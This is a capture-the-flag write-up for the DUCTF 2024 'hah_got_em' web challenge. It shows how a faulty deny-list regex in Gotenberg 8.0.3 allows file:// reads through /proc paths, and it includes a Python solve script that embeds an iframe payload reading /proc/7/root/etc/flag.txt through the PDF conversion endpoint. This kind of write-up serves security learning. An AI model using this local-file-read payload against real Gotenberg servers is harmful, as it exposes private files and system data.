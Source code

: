 ```yaml
---
created: 2024-07-05T20:39
updated: 2024-07-07T21:47
title: hah_got_em
solves: 173
points: 129
description: smh bad regex
---
```


## Analysis
The docker image is fixed at `gotenbergv8.0.3`, I wonder why...
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720298973/2024/07/ec4bad9f49946fcd2204722dbbd5564c.png)

Turns out there's a security update right after.

After looking through the patch, I found the following lines that were removed.

```go
CHROMIUM_DENY_LIST="^file:///[^tmp].*"

if !b.arguments.allowList.MatchString(url) {
    return fmt.Errorf("'%s' does not match the expression from the allowed list: %w", url, ErrUrlNotAuthorized)
}

if b.arguments.denyList.String() != "" && b.arguments.denyList.MatchString(url) {
    return fmt.Errorf("'%s' matches the expression from the denied list: %w", url, ErrUrlNotAuthorized)
}
```

It appears that the regex was misconfigured and would allow any path that starts with either `t` `m` or `p`.
## Attack
To access `/etc/flag.txt` with a url starting with any character in `[tmp]`, the first thing that came to mind was `proc`.

So I used the docker shell and looked for flag.txt.

```sh
ls proc/*/*/*/* | grep flag.txt
```

```txt
...
proc/26/cwd/etc/flag.txt
proc/26/cwd/tmp/flag.txt
proc/26/root/etc/flag.txt
proc/26/root/tmp/flag.txt
proc/66/root/etc/flag.txt
proc/66/root/tmp/flag.txt
proc/7/root/etc/flag.txt
proc/7/root/tmp/flag.txt
proc/70/root/etc/flag.txt
proc/70/root/tmp/flag.txt
proc/71/root/etc/flag.txt
...
```

Wow, there's a lot of them, so I picked `pid=7` because I liked the number.

## Solve Script

```python
import requests
import io
import fitz
file_content = """
<iframe src="file:///proc/7/root/etc/flag.txt"></iframe>
"""
file_path = "index.html"

payload = io.BytesIO(file_content.encode('utf-8'))

url = "https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/markdown"

files = {"html": (file_path, payload), "md": ("dummy.md", payload)}
response = requests.post(url, files=files)
if 'application/pdf' not in response.headers['Content-Type']:
    print(response.text)
    exit()
print(response.status_code)
pdf_bytes = io.BytesIO(response.content)
pdf_document = fitz.open(stream=pdf_bytes, filetype="pdf")
all_text = ""
for page_num in range(len(pdf_document)):
    page = pdf_document.load_page(page_num)
    all_text += page.get_text()
print(all_text)
```
